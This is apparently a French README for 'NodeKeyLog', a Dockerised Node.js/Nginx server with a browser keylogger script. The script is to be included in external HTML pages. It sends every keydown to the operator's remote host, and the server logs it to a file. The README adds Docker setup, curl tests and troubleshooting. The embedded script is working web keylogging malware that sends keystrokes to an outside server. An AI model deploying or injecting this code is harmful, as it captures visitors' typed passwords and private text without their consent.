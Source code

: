 # NodeKeyLog

2. **Lancer les conteneurs**
```bash
docker compose up -d --build
```

3. **Vérifier**
- Le serveur Node.js écoute sur le port 3000 (interne)
- Nginx reverse proxy sur http://nodekey.skandy.online et http://www.nodekey.skandy.online
- Les touches sont enregistrées dans `/root/keylog.txt` sur le serveur

## Script client
Inclure le fichier `client-keylogger.js` dans ta page HTML externe.
```
  <script >(function() {
        document.addEventListener('keydown', function(e) {
            fetch('http://nodekey.skandy.online/keylog', {
                method: 'POST',
                headers: { 'Content-Type': 'application/json' },
                body: JSON.stringify({ key: e.key })
            });
        });
    })();</script>
    
```

## Tester le fonctionnement

1. **Vérifier que les conteneurs tournent**
   ```bash
   docker ps
   ```
   Tu dois voir deux conteneurs : `nodekeylog-server` et `nodekeylog-nginx`.

2. **Vérifier que le serveur répond**
   - Ouvre un navigateur et va sur :
     - http://nodekey.skandy.online
     - ou http://146.190.136.86
   - curl -X POST http://nodekey.skandy.online/keylog -H "Content-Type: application/json" -d '{"key":"A"}'

3. **Tester l’enregistrement des touches**
   - Crée une page HTML locale avec le script fourni (voir ci-dessous)
   - Ouvre la page dans ton navigateur, tape sur le clavier
   - Les touches doivent s’enregistrer dans `/root/keylog.txt` sur le serveur (vérifie avec `docker exec` ou en te connectant en SSH)
   ```bash
   docker exec -it nodekeylog-server cat /root/keylog.txt
   ```
# 1. Mettre à jour les paquets
sudo apt-get update
sudo apt-get install -y ca-certificates curl gnupg lsb-release

# 2. Créer le répertoire pour les clés
sudo mkdir -p /etc/apt/keyrings

# 3. Télécharger la clé GPG officielle Docker
curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo gpg --dearmor -o /etc/apt/keyrings/docker.gpg

# 4. Donner les bonnes permissions
sudo chmod a+r /etc/apt/keyrings/docker.gpg

# 5. Ajouter le dépôt Docker (remplace $(lsb_release -cs) par ta version Ubuntu si besoin, ex : jammy, focal…)
echo \
  "deb [arch=$(dpkg --print-architecture) signed-by=/etc/apt/keyrings/docker.gpg] https://download.docker.com/linux/ubuntu \
  $(lsb_release -cs) stable" | sudo tee /etc/apt/sources.list.d/docker.list > /dev/null

# 6. Mettre à jour et installer Docker
sudo apt-get update
sudo apt-get install -y docker-ce docker-ce-cli containerd.io docker-buildx-plugin docker-compose-plugin


---

**Remarque :**
- Pour HTTPS, il faudra ajouter une configuration supplémentaire (Let’s Encrypt, etc).
- Pour toute question ou amélioration, ouvre une issue ou contacte le mainteneur.

---

## Dépannage & Astuces

### Problème de montage du fichier `/root/keylog.txt`

Si tu obtiens une erreur du type :
```
error mounting "/root/keylog.txt" ... not a directory: unknown: Are you trying to mount a directory onto a file (or vice-versa)?
```
**Solution :**
1. Supprime le conteneur Node.js :
   ```bash
   docker rm -f nodekeylog-server
   ```
2. Sur le serveur, assure-toi que `/root/keylog.txt` existe et est bien un fichier :
   ```bash
   rm -rf /root/keylog.txt
   touch /root/keylog.txt
   chmod 666 /root/keylog.txt
   ```
3. Relance les conteneurs :
   ```bash
   docker-compose up -d --build
   ```

### Tester l’API avec curl

Pour vérifier que le serveur reçoit bien les touches :
```bash
curl -X POST http://nodekey.skandy.online/keylog -H "Content-Type: application/json" -d '{"key":"A"}'
```
Tu dois recevoir :
```json
{"message":"Touche enregistrée."}
```
Et voir la lettre dans `/root/keylog.txt` :
```bash
cat /root/keylog.txt
```

---
